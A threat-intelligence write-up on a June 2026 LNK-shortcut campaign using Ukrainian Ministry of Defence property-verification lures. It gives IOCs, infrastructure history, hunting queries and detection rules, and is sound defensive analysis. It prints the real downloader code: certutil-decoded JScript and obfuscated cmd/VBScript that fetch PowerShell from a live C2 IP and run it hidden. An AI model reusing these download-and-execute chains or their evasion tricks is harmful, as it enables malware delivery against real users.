

The file looks like a government document. `NAKAZ_MO_perevirka_mayna.docx.lnk`. Open it in Windows Explorer and you see a Word icon — the folder has `imageres.dll` icon resource 97, which maps to a `.docx`. The extension is hidden by default in Windows. Click it and you have not opened a document.

The actor's timing is precise. "Nakaz MO" is Ukrainian for "Ministry of Defence Order". "Perevirka mayna" is "property verification". Since Russia's full-scale invasion, Ukrainian legislation requires military and civil service personnel to file mandatory property declarations — a bureaucratic reality that makes this exact document name plausible in any MoD inbox. The second file in the same archive is `SPYSOK_mayna.docx.lnk`: "property list".

Whoever made this knows their targets.

---

## What's in the ZIP

The archive (`b4c56effba0516161bf59022f137837ccf852825e5fa09d15b9a8bf8295fbde2`, 13KB, 30 VT detections) contains two files:

| File | SHA256 | Detections |
|---|---|---|
| `NAKAZ_MO_perevirka_mayna.docx.lnk` | `9bd16130d297f639bab147186ce090becb05a1f0e85ee87a8aba3b557e170558` | 22 |
| `SPYSOK_mayna.docx.lnk` | `d58243d0a48590eda21876c8130ad984877f8287a159469bcdb5ba1232b46fc2` | 21 |

Both are Windows shortcuts masquerading as Word documents via a double extension and Word icon. Created June 26, 2026 at 10:39:50 UTC. Both target `C:\Windows\System32\cmd.exe` with `SW_SHOWMINNOACTIVE` — the window flashes minimised for a fraction of a second, barely visible.

---

## The Kill Chain

Both LNK files run the same four-step pattern, differing only in which PS1 filename they request:

```
cmd.exe /c
  echo [base64 blob] > yO.b64
  certutil -decode yO.b64 5G9X2.js >nul
  wscript //b 5G9X2.js
  del yO.b64 5G9X2.js
```

`certutil -decode` is used here as a LOLBin base64 decoder — it turns the echoed blob into a JavaScript file. `wscript //b` runs it silently. The decoded JScript (`cfe0ff9b5bc1c1c4f07324005eea1fbbeafb29d239b162226decffaa7448675f`, 301 bytes, 8 dets) is the actual downloader:

```javascript
var h = new ActiveXObject("MSXML2.ServerXMLHTTP.6.0");
h.open("GET", "http://193.169.194.86/cr44g/fifthbelong.ps1", false);
h.setRequestHeader("User-Agent", "UA WindowsPowerShell");
h.send();
new ActiveXObject("Shell.Application").ShellExecute(
  "powershell.exe",
  "-NoP -W Hidden -C " + h.responseText,
  "", "open", 0
);
```

The `SPYSOK` LNK fetches `sponsorinput.ps1` from the same path. The PS1 content is passed directly to `powershell.exe` via `-C` — it never touches disk.



---

## The C2 Returns 403 to Every Sandbox

`193.169.194.86` runs Apache 2.4.52 on Ubuntu, port 80 only. The CAPE sandbox received this instead of a PowerShell script:

```
powershell.exe -NoP -W Hidden -C <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head><title>403 Forbidden</title></head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<address>Apache/2.4.52 (Ubuntu) Server at 193.169.194.86 Port 80</address>
</html>
```

Every sandbox — CAPE, Zenbox, C2AE, VirusTotal Jujubox — got the same 403. The server is authenticating requests: likely checking source IP geolocation against Ukrainian address space, the custom User-Agent, or both. The PS1 payload has never been publicly recovered.

The User-Agent string `UA WindowsPowerShell` is actor-specific and consistent across every variant. "UA" is the ISO 3166-1 alpha-2 country code for Ukraine. Whether this is a tracking mechanism, a server-side authentication token, or an internal naming convention, it's a reliable fingerprint for this cluster — and worth hunting in proxy logs.

---

## The Earlier Build: /krr4g/

This is the second time the same infrastructure ran the same lure. One day earlier — June 25, 2026 at 10:00 UTC — an identical ZIP (`a1dbae0dd3e1d72f649be1c8a999274a22127ed27165018af1d96b7d6eda9baa`, 35 dets) was built with the same LNK filenames, pointed at a different C2 path: `/krr4g/`.

The obfuscation in v2 is different. Instead of certutil base64 decode, the LNK writes VBScript inline via `cmd /v` with environment variable string splitting:

```batch
cmd /v /c "set "x1=MSXM" && set "x2=L2.XML" && set "v=!x1!!x2!HTTP"
  && echo Set h=CreateObject("!v!"):h.open "GET",
     "http://193.169.194.86/krr4g/philanthropyephyra.ps1",False:
     h.setRequestHeader "User-Agent","UA WindowsPowerShell":h.send:
     Set b=CreateObject("ADO"^&"DB.Str"^&"eam"):b.Type=1:b.Open:
     b.Write h.responseBody:b.SaveToFile "%TEMP%\ALZrzi.ps1",2
     > %TEMP%\vVy.vbs
  && cscript //b %TEMP%\vVy.vbs
  && powershell -NoP -W Hidden -ExecutionPolicy Bypass -File %TEMP%\ALZrzi.ps1
  && del %TEMP%\vVy.vbs %TEMP%\ALZrzi.ps1"
```

`MSXML2.XMLHTTP` is rebuilt from parts (`!x1!!x2!HTTP`) to defeat string-based detection. `ADODB.Stream` writes the response body as binary to disk before execution. v2 got 34-35 detections. The actor switched to certutil+JScript in v1 and dropped to 21-22 within 24 hours.

| Build | Date | Path | Technique | Detections |
|---|---|---|---|---|
| v2 (earlier) | 2026-06-25 | `/krr4g/` | VBS inline echo + ADODB.Stream | 34–35 |
| v1 (later) | 2026-06-26 | `/cr44g/` | certutil + JScript via base64 | 21–22 |

---

## The Internal Codename: Sleestak

A third file on the same C2 — `sleestak_payload_1.vbs` (`a741cbddad59fc56cb42cf49dcd23596ac435df1a5452b1cb1a1672014d4d7f2`, 17 dets, first seen June 25, 2026) — fetches `http://193.169.194.86/krr4g/angeldogsled.ps1`. It's functionally identical to the VBScript the v2 LNK echoes inline, but uploaded directly to VirusTotal from the actor's development machine before it was packaged.

"Sleestak" is the internal campaign name — or the name the developer gave the payload on their workstation. It leaked because the actor scanned their own staging file, unaware it would end up in a public repository. In the Land of the Lost, the Sleestak are reptilian cave-dwelling predators that hunt in silence. Whether this is a deliberate codename or an accidental leak of a private naming convention, it's the only label the actor put on this operation.

---

## Infrastructure

| Host | Details | Role |
|---|---|---|
| `193.169.194.86` | Apache 2.4.52 / Ubuntu / port 80 | C2 — PS1 staging server |
| ASN 214576 | "Berdiev Ruslan Mukhabatovich" | Bulletproof-adjacent hosting |
| SIA GOOD, Riga, Latvia | RIPE ORG-SG425-RIPE | IP block registrant |
| `/cr44g/` | v1 campaign path | `fifthbelong.ps1`, `sponsorinput.ps1` |
| `/krr4g/` | v2 campaign path | `philanthropyephyra.ps1`, `angeldogsled.ps1` |

`SIA GOOD` (reg. LV `43603067005`, Brīvības iela 52, Riga) holds the RIPE block `193.169.194.0/23`. The AS is registered under a Central Asian individual name. This class of Latvian-registered, Central Asian-operated infrastructure is common across Eastern European threat clusters and rarely responds meaningfully to abuse reports.

The server's VT history shows it's been active since at least November 2023 and has hosted at least three distinct campaigns under different operators:

| Period | Activity |
|---|---|
| Nov 2023 – Jan 2024 | Chinese email tracking campaigns (`heyunyishu.cn`, `cpcmx.cn`) |
| April 1, 2024 | Port 8888: spear-phishing recon tracking against a UBS Securities Associate Director and at least one Gmail target — standard email open-pixel to log when the target reads the message |
| June 2026 | Sleestak / NAKAZ MO Ukrainian MoD campaign (this article) |

The April 2024 operator is unrelated to Sleestak. The pattern is consistent with durable bulletproof hosting that takes any paying customer: the IP stays stable, the tenants rotate. This also means abuse reports sent to SIA GOOD or RIPE in 2024 — if any were filed — didn't touch the server. It was still available for the next group two years later.

An unrelated `Pcillin_Crack.zip` (54 dets, containing malware named `Porn_Napster.exe`) is also hosted on the current Apache instance — a cracked-software lure from yet another actor sharing the same server.

---

## IOC Summary

**ZIP archives**
- `b4c56effba0516161bf59022f137837ccf852825e5fa09d15b9a8bf8295fbde2` — v1 (June 26, 13KB, 30 dets)
- `a1dbae0dd3e1d72f649be1c8a999274a22127ed27165018af1d96b7d6eda9baa` — v2 (June 25, 13KB, 35 dets)

**LNK files (v1)**
- `9bd16130d297f639bab147186ce090becb05a1f0e85ee87a8aba3b557e170558` — `NAKAZ_MO_perevirka_mayna.docx.lnk`
- `d58243d0a48590eda21876c8130ad984877f8287a159469bcdb5ba1232b46fc2` — `SPYSOK_mayna.docx.lnk`

**LNK files (v2)**
- `63369b7db4f2380cc94546870bedf897f37aaf6937e72034d82013b4c904915a` — `NAKAZ_MO_perevirka_mayna.docx.lnk`
- `0ed95c161987e712703a55b56de2d1bbeb6f5f409639d3f3eee6b8e5d7ceceb8` — `SPYSOK_mayna.docx.lnk`

**Intermediate stages**
- `cfe0ff9b5bc1c1c4f07324005eea1fbbeafb29d239b162226decffaa7448675f` — `5G9X2.js` (JScript downloader, 8 dets)
- `a741cbddad59fc56cb42cf49dcd23596ac435df1a5452b1cb1a1672014d4d7f2` — `sleestak_payload_1.vbs` (development artifact, 17 dets)

**C2 / URLs**
- `193.169.194.86` (port 80, AS214576 — block)
- `hxxp://193.169.194.86/cr44g/fifthbelong.ps1`
- `hxxp://193.169.194.86/cr44g/sponsorinput.ps1`
- `hxxp://193.169.194.86/krr4g/philanthropyephyra.ps1`
- `hxxp://193.169.194.86/krr4g/angeldogsled.ps1`

**Network detection signature**
```
User-Agent: UA WindowsPowerShell
```
Flag this in proxy logs. It appears in both v1 JScript and v2 VBScript — it's the only custom header in the downloader and present in every variant.

---

## What To Do

**Hunt for the LNK double-extension trick:**
```powershell
Get-ChildItem -Path C:\Users -Recurse -Filter "*.lnk" -ErrorAction SilentlyContinue |
  Where-Object { $_.Name -match "\.docx\.lnk$|\.xlsx\.lnk$|\.pdf\.lnk$" }
```

**Block at proxy / firewall:**
```
193.169.194.86           # C2, Apache 2.4.52, geo-fenced PS1 host
User-Agent: UA WindowsPowerShell   # actor fingerprint — alert on any match
```

**Alert on process chain:**
```
cmd.exe spawning certutil.exe -decode → wscript.exe //b *.js
cmd.exe /v spawning cscript.exe //b *.vbs → powershell.exe -File %TEMP%\*.ps1
```

---

The four PS1 files — `fifthbelong.ps1`, `sponsorinput.ps1`, `philanthropyephyra.ps1`, `angeldogsled.ps1` — have never been publicly recovered. The C2 serves them only to real Ukrainian targets. The lure, the technique, the timing, and the bulletproof hosting infrastructure are consistent with a Russian-nexus actor that has been running LNK-based campaigns against Ukrainian military and government personnel throughout the war. Specific group attribution — UAC-0010 (Gamaredon/Armageddon) is the most active cluster using these techniques against these targets — cannot be confirmed without the stage-2 payload.

Sleestak was active four days ago.

---

*Passive analysis: VirusTotal (file/URL/behavior APIs), abuse.ch MalwareBazaar, Shodan InternetDB, RIPE WHOIS. No live C2 contact. No credentials tested or used.*
